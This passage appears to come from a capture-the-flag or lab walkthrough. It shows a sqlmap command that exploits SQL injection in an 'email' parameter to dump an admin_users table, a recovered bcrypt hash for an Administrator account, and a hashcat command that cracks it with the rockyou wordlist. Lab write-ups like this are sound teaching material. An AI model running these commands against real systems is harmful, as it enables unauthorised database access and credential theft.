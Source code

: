 - Check Table Content - admin_user

```
sqlmap -r sql.req -p email --dbms=mysql --ignore-code=500 --technique=BE -D usage_blog -T admin_users --current-user staff --level 4 --dump --threads 4 --batch
```

![](./IMG/42.png)

> Find Administrator credential hash

```
Administrator / Admin / $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
```

> Hashcat to crack it 

```
hashcat -m 3200 admin.hash /usr/share/wordlists/rockyou.txt
```

![](./IMG/43.png)
